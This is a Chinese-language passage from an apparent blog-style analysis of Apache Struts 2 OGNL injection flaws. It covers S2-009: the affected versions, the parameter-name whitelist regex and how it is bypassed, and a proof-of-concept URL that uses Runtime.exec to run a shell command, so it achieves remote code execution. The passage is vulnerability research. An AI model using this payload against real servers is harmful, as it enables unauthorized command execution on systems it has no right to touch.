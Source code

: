 {{< figure src="/ox-hugo/2021-11-16_15-20-39_screenshot.png" >}}

最后把参数名当作 OGNL 表达式进行解析，调用栈如下：

```nil
compile:223, OgnlUtil (com.opensymphony.xwork2.ognl)
getValue:213, OgnlUtil (com.opensymphony.xwork2.ognl)
getValueUsingOgnl:277, OgnlValueStack (com.opensymphony.xwork2.ognl)
tryFindValue:260, OgnlValueStack (com.opensymphony.xwork2.ognl)
tryFindValueWhenExpressionIsNotNull:242, OgnlValueStack (com.opensymphony.xwork2.ognl)
findValue:222, OgnlValueStack (com.opensymphony.xwork2.ognl)
findValue:284, OgnlValueStack (com.opensymphony.xwork2.ognl)
intercept:219, DebuggingInterceptor (org.apache.struts2.interceptor.debugging)
...
```


## S2-009 {#s2-009}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.1.1


### 漏洞描述 {#漏洞描述}

Struts 使用白名单解决了 S2-003 和 S2-005 从参数名注入 OGNL 表达式的情况，使用的
正则如下：

```text
private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";
```

这个漏洞的成因是：类似 `top['foo'](0)` 这样格式的参数名可以通过校验，而 Struts 会
把它解析成 `(top['foo'])(0)`, 也就是把 `top['foo']` 当作表达式执行，这可以从上下文获
取 foo 变量的值

因此可以通过两个参数来绕过白名单：第一个参数的值写入恶意表达式，因为
ParametersInterceptor 只会校验参数名，所以参数值可以写入任意表达式；然后第二个参
数名解析的时候获取这个恶意表达式并执行

poc:

```text
/action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27mkdir%20/tmp/PWNAGE%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true
```

(注意参数会根据首字母进行排序，要保证第一个参数的首字母排在前面)


## S2-012 {#s2-012}


### 影响范围 {#影响范围}

